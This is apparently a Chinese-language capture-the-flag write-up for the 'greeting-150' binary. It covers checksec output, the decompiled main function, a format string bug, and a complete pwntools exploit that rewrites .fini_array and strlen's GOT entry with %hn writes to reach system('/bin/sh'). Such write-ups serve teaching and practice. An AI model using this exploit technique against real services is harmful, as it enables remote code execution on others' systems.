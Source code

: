 根据writeup第三条分析而来：
$ checksec greeting-150
[*] '/home/davidcr/Downloads/CTF/master_pwn/0x17/greeting-150'    
Arch:     i386-32-little    
RELRO:    No RELRO    
Stack:    Canary found    
NX:       NX enabled    
PIE:      No PIE (0x8048000)


本题代码：

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  int v4; // edx@4
  int v5; // [sp+1Ch] [bp-84h]@2
  int v6; // [sp+5Ch] [bp-44h]@1
  int v7; // [sp+9Ch] [bp-4h]@1

  v7 = *MK_FP(__GS__, 20);
  printf("Please tell me your name... ");
  if ( getnline((char *)&v6, 64) )
  {
    sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
    result = printf((const char *)&v5);
  }
  else
  {
    result = puts("Don't ignore me ;( ");
  }
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

很明显    result = printf((const char *)&v5);
存在格式化字符串漏洞。

dudu@kali:~/桌面/learn/pwn/xctf/进阶$ ./greeting-150 
Hello, I'm nao!
Please tell me your name... AAAAAAAA -%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
Nice to meet you, AAAAAAAA -0x80487d0-0xffbb282c-(nil)-(nil)-(nil)-(nil)-0x6563694e-0x206f7420-0x7465656d-0x756f7920-0x4141202c-0x41414141-0x2d204141-0x252d7025-0x70252d70- :)


利用：
由于v6只有64字节（payload长度不能大于64），考虑到空间问题，所以要精心布置。
writeup中采用：
在printf的格式化修饰符中，hn 为WORD(字),hhn为BYTE(字节),n为DWORD(双字)


fini_got = 0x8049934  
main_addr = 0x80485ED  
strlen_got = 0x8049A54  
system_plt = 0x8048490  
此处的数据，只有后2字节与main_addr不一样，因此，我们只需要修改后两字节。

然后就是strlen的GOT表内容，四个字节我们都需要修改，我们拆分为2个2字节写。

payload的结构如下：
aa
[fini_array    ] [strlen_got + 2] [strlen_got    ]
(%34000c%12$hn ) (%33556c%13$hn ) (%31884c%14$hn )
这里的 12，13，14 偏移分别对应输入的 fini_array，strlen_got + 2，strlen_got

[offset 12] (s + 0x2) fini_array 
[offset 13] (s + 0x6) strlen_got + 2
[offset 14] (s + 0xA) strlen_got
这里的 $hn 只写两个字节，首先在 fini_array 处写入了 0x20（strlen（"Nice to meet you "）【18】+strlen("aa")【2】+3个地址的长度【3*8】） + 34000 即 0x84f0，即 _start 函数的低两位字节，当 main 函数运行完毕后会再次进入main 函数。在 strlen_got + 2 处写了 0x84f0 + 33556 = 0x10804，由于只写两位字节，多余的 0x10000 作废了。同理，在 strlen_got 处写了0x10804 + 31884 = 0x19AC0，多余的 0x10000 作废。至此，strlen_got 指向 0x08049AC0 即 system 函数地址。

注意：
fini_got = 0x8049934  
main_addr = 0x80485ED  
strlen_got = 0x8049A54  
system_plt = 0x8048490  
其中fini_got与main_addr的高地址相同，都是0804
所以只需要更改低地址


代码:
from pwn import *
if len(sys.argv) < 2:    
    sh= process('./greeting-150')
else:    
    sys_argv = sys.argv[1].split(':')    
    sh = remote(sys_argv[0], int(sys_argv[1]))

#sh=remote('111.198.29.45',37802)
elf=ELF('./greeting-150')
fini_array=0x08049934
start=0x080484f0
system_plt=elf.plt['system']
strlen_got=elf.got['strlen']
print "strlen_got: "+hex(strlen_got)
print "system_plt: "+hex(system_plt)
print "fini_array: "+hex(fini_array)
print "start: "+hex(start)

sh.recv()
payload='aa'+p32(fini_array)+p32(strlen_got+2)
payload+=p32(strlen_got)+'%34000c%12$hn'
payload+='%33556c%13$hn'
payload+='%31884c%14$hn'
sh.sendline(payload)
sh.recv()

sh.sendline('/bin/sh\x00')
sh.recvuntil('Please tell me your name... ')
sh.interactive()
